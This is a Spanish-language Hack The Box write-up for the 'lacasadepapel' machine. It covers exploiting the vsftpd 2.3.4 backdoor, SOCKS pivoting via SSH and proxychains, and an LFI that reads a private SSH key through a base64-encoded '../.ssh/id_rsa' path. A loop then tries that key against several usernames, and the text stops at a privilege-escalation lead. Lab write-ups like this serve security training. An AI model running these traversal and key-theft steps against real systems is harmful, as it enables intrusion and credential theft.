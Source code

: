 # lacasadepapel HTB

# NMAP 

![image](https://github.com/gecr07/lacasadepapel_HTB/assets/63270579/7c21337c-8e5b-4da0-9885-e4673da0b875)


## RCE

Se explota la version de ftp "vsftpd 2.3.4. Este exploit si lo revisas abre una shell en el puerto 6200. 


![image](https://github.com/gecr07/lacasadepapel_HTB/assets/63270579/b8eb9739-6b88-4418-b318-def922cabdbc)

Se mete nuestra public key en authorized keys pero al entrar nos manda otra vez a la Psy Shell. Para aprobechar esto vamos a usar el Dinamic port fowarding


```
ssh -i id_rsa dali@10.129.242.42 -D 1080
# Puerto configurado tambien el proxychains si acepta sock5
```

Para verificar que si tenemos acceso a los puertos de la maquina utiliza

```
proxychains nmap -p 1-10000 $target
```

Para iniciar el firefox con proxychains tienes que ver el output parecido a este:

![image](https://github.com/gecr07/lacasadepapel_HTB/assets/63270579/a3fd1aec-53e8-42b8-9ec4-88a1e3fe9913)


### LFI 

Nos encontramos un LFI y encontramos un id_rsa para probar la key con todos los usuarios 

```
 proxychains curl http://localhost:8000/file/$(echo -n "../.ssh/id_rsa" | base64)
[1] 0:zsh  1:ssh  2:zsh  3:zsh  4:zsh  5:firefox-esr  6:zsh* 7:ssh-                     

for user in berlin dali nairobi oslo professor; do ssh -oBatchMode=yes -i ~/id_rsa_lacasadepapel_berlin $user@10.10.10.131; done
```


## Priv esca

Nos damos cuenta que existe un proceso que se ejecuta desde la carpeta del profesor y que incluso cambia de pid cada minuto lo que sugiere que se esta ejecutando recurrentemente.


```
ps aux | grep "mem"
```

![image](https://github.com/gecr07/lacasadepapel_HTB/assets/63270579/6ca70276-05cd-41c6-bfc0-e268442d3766)




































